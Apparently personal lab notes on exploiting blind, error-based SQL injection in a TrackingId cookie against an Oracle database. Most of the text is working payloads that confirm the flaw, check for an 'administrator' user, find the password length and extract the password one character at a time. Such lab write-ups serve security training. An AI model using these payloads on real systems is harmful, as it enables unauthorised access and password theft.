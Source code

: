 When we send a quotation mark, it send a error. 
![[Pasted image 20250627211814.png]]

But if we put ''(two quotation mark). We receive a 200 ok. So, the error that trigger the message is a syntax mistake.

![[Pasted image 20250627211949.png]]

![[Pasted image 20250627212207.png]]

![[Pasted image 20250627212236.png]]
![[Pasted image 20250627212335.png]]
6 `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
7 `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
8 `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

Its using the case to determine if the username "adminsitrator" exist. Because, if exist it is going to trigger the error 1/0.
9 `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Determining how long is the password. When the error disappears is when we get the length
10 `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Finally, it is the final query to guess the pass. We need to change the position (password 1,1  -> password 2,1) or we can create a sequence.
11 `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`